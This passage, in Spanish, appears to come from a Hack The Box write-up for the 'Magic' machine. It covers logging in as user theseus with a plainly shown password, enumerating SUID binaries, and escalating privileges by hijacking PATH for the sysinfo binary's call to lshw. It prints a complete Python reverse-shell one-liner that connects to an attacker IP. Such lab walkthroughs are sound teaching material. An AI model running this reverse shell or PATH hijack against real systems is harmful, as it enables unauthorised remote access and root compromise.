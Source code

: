 ```bash
UNLOCK TABLES;
```

Como podemos observar ya encontramos la contraseña del admin y procedemos a logearnos con esta credenciales

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ su theseus
theseus@ubuntu:/var/www/Magic$cat /home/theseus/user.txt
88694a..........................
```




## Escalamiento de privilegios

Ahora, buscamos los archivos SUID que son los archivos en los cuales el usuario puedo ejecutar comandos con los permisos de root y cambiar los comportamientos en los directorios.

```console
theseus@ubuntu:~/.ssh$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```

Hay un SUID muy particular que es `sysinfo` y que se divide en 4 partes. Estas 4 partes usan los siguientes comandos de Linux

```
- Hardware Info = lshw -short
- Disk Info = fdisk -l
- CPU Info = cat /proc/cpuinfo
- Mem Usage = free -h
```

Procedemos a cambiar las variables del PATH y en este caso vamos a utilizar `lshw`. Para esto, creamos una shell reversa en Python y lo guardamos en un archivo llamado `lshw`

```python
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #pluma lshw

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
